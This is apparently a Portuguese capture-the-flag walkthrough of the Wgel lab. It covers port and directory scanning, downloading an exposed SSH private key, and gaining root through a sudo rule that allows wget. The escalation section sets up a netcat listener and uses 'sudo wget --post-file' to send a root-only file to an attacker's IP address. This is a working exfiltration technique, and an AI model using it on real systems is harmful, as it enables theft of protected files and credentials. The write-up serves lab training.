










# _**Wgel CTF**_


## _**Enumeração**_
Vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap --open -A -T5 [ip_address]
> ```


Também vamos fazer um scan <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```


Vamos verificar a página <mark>/sitemap</mark>  
Temos um site para criação de _templates_ e afins  
O nome, unapp Template  
Pesquisando no Google por CVEs  
Nenhuma encontrada  

Mais alguns scans são feitos com <mark>Gobuster</mark> para tentar descobrir alguns diretórios em sitemap, mas sem nenhum sucesso  
Vamos tentar a ferramenta <mark>Nikto</mark>  
Nada também  
Fui à procura de uma solução na Internet e encontrei um scan com Gobuster, mas ao invés de apenas usar o endereço IP, incluir também <mark>/sitemap</mark>  
Temos a descoberta de alguns diretórios a mais!  



## _**Ganhando acesso**_
Curiosamente, temos um diretório bem específico, <mark>/.ssh</mark>  
Visitando, temos um arquivo _**id_rsa**_, do qual podemos baixar no nosso computador  
Mas ainda fica a pergunta, onde podemos encontrar o usuário  



Vasculhando muito nos arquivos fonte da página, encontramos um nome, além daqueles que estão no site, <mark>Jessie</mark>  
Vamos tentar realizar um login via ssh agora!  



Primeiro, vamos buscar pela user flag com um comando ```find```
> ```bash
> find / -type f -name *.txt 2>/dev/null
> ```


Com um comando ```cat```, obtemos a primeira _flag_  
Agora vamos para a segunda, que a princípio, está em _/root_  

## _**Escalando privilégios**_
Vamos tentar escalar privilégios, primeiro verificando com o comando ```sudo -l```  



A linha abaixo:
> (root) NOPASSWD: /usr/bin/wget
significa que o usuário <mark>jessie</mark> pode rodar o _wget_ como _root_, sem senha.  

Primeiro, em nosso computador, vamos escutar com _netcat_
> ```bash
> nc -lnvp 4000
> ```
Vamos executar as seguintes linhas de comando
> ```bash
> cd /usr/bin
> ```
> ```bash
> sudo /usr/bin/wget --post-file=/root/root_flag.txt http://[vpn_ip_address]:400
> ```



Assim, podemos obter a _flag_ _root_
